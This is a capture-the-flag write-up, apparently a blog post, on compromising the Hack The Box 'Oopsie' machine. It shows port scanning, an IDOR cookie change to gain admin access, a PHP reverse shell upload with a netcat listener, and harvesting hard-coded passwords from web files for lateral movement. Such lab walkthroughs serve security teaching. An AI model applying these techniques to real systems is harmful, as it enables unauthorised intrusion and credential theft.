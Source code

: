 ```yaml
---
layout: post
title: 'HTB | Oopsie'
date: 2022-03-06
permalink: /htb/oopsie/
---
```


#header-4)Enumeration

The nmap will show us:
{% highlight plain %}
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-05 16:47 EST
Nmap scan report for 10.129.111.155
Host is up (0.048s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.95 seconds
{% endhighlight %}

If we search the ip in the Firefox we can access to a webpage:
![webpage](./img/Screenshot_3.jpg)

Now we can set Firefox to listen to **Burp Suite**:
![proxy](./img/Screenshot_4.jpg)

In the Burp Suite app we can see there is a login:
![webpage](./img/Screenshot_5.jpg)

# [](#header-4)Foothold

Now we have access to the login page:
![webpage](./img/Screenshot_6.jpg)

We can see we need super admin privilages to get access to the super admin account:
![webpage](./img/Screenshot_7.jpg)

We can see the **id=2**.:
![webpage](./img/Screenshot_8.jpg)

If we change to 1:
![webpage](./img/Screenshot_9.jpg)

Now we can use those credentials to change the cookies:
![webpage](./img/Screenshot_10.jpg)

We will upload a reverse shell in php and use gobuster to find where it is uploaded:
{% highlight plain %}
$ gobuster dir -u http://10.129.95.191/ -w /usr/share/wordlists/directory-list-2.3-small.txt -x php 

/uploads              (Status: 301) [Size: 316] [--> http://10.129.95.191/uploads/]
{% endhighlight %}

We will open a netcat and execute the reverse shell through the browser:
{% highlight plain %}
$ sudo nc -lvvp 1234
{% endhighlight %}

Now we have access to the system and to the user flag:
{% highlight plain %}
$ cat /home/robert/user.txt
{% endhighlight %}

We can import a python module to get a better shell:
{% highlight plain %}
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
{% endhighlight %}


# [](#header-4)Privilege Escalation

Inside we can search in the Apache server and find the password:
{% highlight plain %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat * | grep pass
        if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
{% endhighlight %}

In the **db.php** file we can get another passwords:
{% highlight plain %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
        <?php
        $conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
        ?>
{% endhighlight %}

We can now use that password to access robert user:
{% highlight plain %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
Password: M3g4C0rpUs3r!
{% endhighlight %}

With the **id** command we can see that Robert is in the same group as bugtracker.
{% highlight plain %}
robert@oopsie:/$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
{% endhighlight %}

We can now search for the bugtracker group:
{% highlight plain %}
robert@oopsie:/$ find / -group bugtracker
/usr/bin/bugtracker
{% endhighlight %}


{% highlight plain %}

{% endhighlight %}
